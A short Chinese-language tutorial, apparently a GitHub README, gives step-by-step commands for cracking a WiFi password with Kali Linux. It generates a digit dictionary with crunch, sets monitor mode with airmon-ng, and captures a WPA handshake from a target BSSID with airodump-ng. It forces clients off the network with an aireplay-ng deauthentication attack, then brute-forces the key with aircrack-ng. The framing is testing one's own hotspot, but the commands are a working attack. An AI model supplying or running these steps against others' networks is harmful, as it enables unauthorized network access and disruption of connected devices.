 # -wifi
kali的小应用
#要求:一台装有kali的电脑；一部手机，一个支持监控的无线网卡(一般笔记本都支持)；一个强大的字典；人需要有时间和耐心；
#手机开热点，密码设纯数字8到10位
#准备字典
这里我们自己建一个简单字典来用会比较快，可以验证是否成功，
先在/etc下创建一个字典，使用crunch命令创建
crunch 8 10 1234567890. -o /etc/zidian.txt
#首先断开连接的wifi
在终端中执行：airmon-ng
#开启无线网卡的监控模式
airmon-ng start wlan0
之后网卡接口会变成wlan0mon
#查看wifi网络
airodump-ng wlan0mon
CH 是频道号，BSSID是网卡物理地址，ESSID是WiFi名称
按CTRL+C结束
#抓取握手包
目标路由CH号为 1 ，mac为 11：22：33：44：55：66
命令airodump-ng -c 目标CH号 --bssid 目标mac -w 保存位置 wlan0mon
airodump-ng -c 1 --bssid 11:22:33:44:55:66 -w /etc/ wlan0mon
成功后，按CTRL+C结束
#等不到有人连WiFi，抓不到包，只能强制设备连接
打开另一个终端，运行一下命令
-0 是发起攻击，2 是表示断开后ping的次数，次数越多，设备重连的验证时间越长，-a 是指定路由，-c 指定断开设备 
aireplay-ng -0 2 -a 11:22:33:44:55:66 -c 00:11:22:33:44:55
#得到握手包后，可以关闭监控模式了
airmon-ng stop wlan0mon
#开始破解密码
aircrack-ng -w /etc/zidian.txt /etc/*.cap
